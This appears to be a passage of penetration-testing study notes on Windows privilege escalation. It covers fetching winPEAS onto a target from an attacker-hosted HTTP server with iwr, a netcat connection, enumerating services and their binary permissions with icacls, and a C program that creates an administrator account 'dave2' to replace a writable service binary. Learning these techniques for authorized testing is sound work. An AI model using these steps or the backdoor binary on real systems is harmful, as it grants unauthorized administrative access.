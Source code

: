#### Automated Enumeration
- Use [peass](https://www.kali.org/tools/peass-ng/)
- On the target, copy the remote peas target to the local target using the [iwr](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2) cmdlet:
	```bash
	$ cp /usr/share/peass/winpeas/winPEASx64.exe .
	$ python3 -m http.server 80
	
	# different terminal
	$ nc 192.168.50.220 4444

	# differernt terminal
	> powershell
	> iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
	```
### Leveraging Windows Services
- If a service is not secured during installation and allows full read/write access to all members of the Users group, we can abuse this and replace the program with our own program. Then when our program is executed, it will be executed with the permissions of the service.
- To get a list of windows services, we can use various methods:
	- GUID snap-in *services.msc*
	- `Get-Service` cmdlet
	- `get-CimInstance` cmdlet (which supersedes the `Get-WmiObject` cmdlet)
		- We are interested in the name, state, and path of the binaries for each service and therefore, use **Select** with the arguments **Name**, **State**, and **PathName**. In addition, we filter out any services that are not in a **Running** state by using **Where-Object**.
		- `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
- Next, get permissions of the service binaries you identified in the previous step using `icacls` or [Get-ACL](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl?view=powershell-7.2)
	- eg: `icacls "C:\xampp\apache\bin\httpd.exe"`
	- `icacls` uses these symbols/masks to represent different permssions:
		- F - Full access
		- M - Modify access
		- RX - Read and execute access
		- R - Read-only access
		- W - Write-only access
	- Create your own binary to use on the target, eg:
		```c
		// compile with 'x86_64-w64-mingw32-gcc adduser.c -o adduser.exe'
		#include <stdlib.h>
		int main () {
			int i;
			i = system ("net user dave2 password123! /add");
			i = system ("net localgroup administrators dave2 /add");
			return 0;
		}
		```
	- Send the binary to the target using `iwr` or some other means
		- eg: `iwr -uri http://xxx.xxx.xxx.xxx/myCustomBin.exe -Outfile myCustomBin.exe`
	- Try restarting the service using `net stop SERVICENAME`. If that doesn't work, use `Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'SERVICENAME'}` to check if the service's **StartMode** is **Auto**, in which case we could try to shutdown the system. We can check our privilege to shutdown to the system (among other privileges) with `whoami /priv`

### Abusing Other Windows Components
